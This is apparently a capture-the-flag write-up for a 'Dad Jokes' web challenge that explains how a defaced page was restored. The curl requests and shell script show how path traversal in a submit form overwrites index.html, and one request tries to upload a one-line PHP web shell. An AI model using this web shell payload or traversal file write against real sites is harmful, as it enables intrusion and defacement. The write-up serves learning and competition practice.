 # Dad Jokes
**Category:** [Internet](../README.md)

**Points:** 15

**Description:**

Darn! Some idiot scriptkiddy broke my favorite website full of dad jokes!

I can't seem to contact the owner to fix the site

Can you bring it back and remove the defaced page?


http://timesink.be/dadjokes/

## Write-up
> TL;DR: The steps will describe the way we got to the answer for our own learning purposes. If you just want to know what the answer was, jump to the [solution](#solution)

### Steps
When you visit the link above, you are presented with the hacked page:

![Hacked page](hacked_page.png)

The first thing we did is look at the page's source. In there is the following comment:
```html
<!-- Hey bozo! I left your original index file under index_backup.html so you can see how your site looked before I used my l33t skillz to deface it. -->
```
We used this information to look at the old site at <http://timesink.be/dadjokes/index_backup.html>:

![Main page](main_page.png)

When we go to the *Read dad jokes* page, we get a list of available jokes. If we then click on one of the jokes, we notice that it includes a text file in the PHP page: `http://timesink.be/dadjokes/jokes/read.php?file=mugged.txt`.

This could be our way in. Looking at the *Submit your own jokes* page, when you enter something in the form, a filename is passed in using the *GET* method: `http://timesink.be/dadjokes/jokes/submit.php?filename=test.txt&title=test&content=A%20test%20joke`. 

This also give you a prompt to confirm you want to go ahead with the submit:

![Submit review](submit_prompt.png)

If you click `YES`, the value `&submit=true` is added to the above *GET* URL.

We can use all this information to try to upload a file. After a few attempts, we tried to create a PHP file and got a 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=test.php&title=test&content=<%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F>&submit=true"
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```
Wondering what 'try that somewhere else!' could mean, and after trying a few things, we wondered if we needed to put a file in a different directory. Trying one directory up gave a different 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=../test.txt&title=test&content=a_test&submit=true"
You're on the right track, but are you trying to be a bit naughty?
```
After some more attempts, we tried to see if we could write to the `index.html` file in the previous directory. This gave us one final 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=a_test&submit=true"
You are definitely on the right track here... but what are you trying to accomplish?
```
OK! So maybe we can overwrite the `index.html` file with the original content from `index_backup.html`?

### Solution
After trying a few things, and getting the odd hint, it seemed we needed to use the submit form from the original website to put the original HTML back into the `index.html` file at the top level.

We wrote a script to read the `index_backup.html` file (left there by the hacker), and pass the result (once URL encoded) as the content to the `submit.php` script:
```bash
#!/bin/sh

URL=http://timesink.be/dadjokes
SUBMIT=jokes/submit.php?
OLDPAGE=index_backup.html

oldtext=$(curl $URL/$OLDPAGE | sed -e "s/ /%20/g" -e "s/'/%27/g" -e "s/=/%3D/g" -e "s/\"/%22/g")

echo $oldtext

flag=$(curl "$URL/${SUBMIT}filename=../index.html&title=index&content=$oldtext&submit=true")
echo $flag
```
Running this script returned the flag
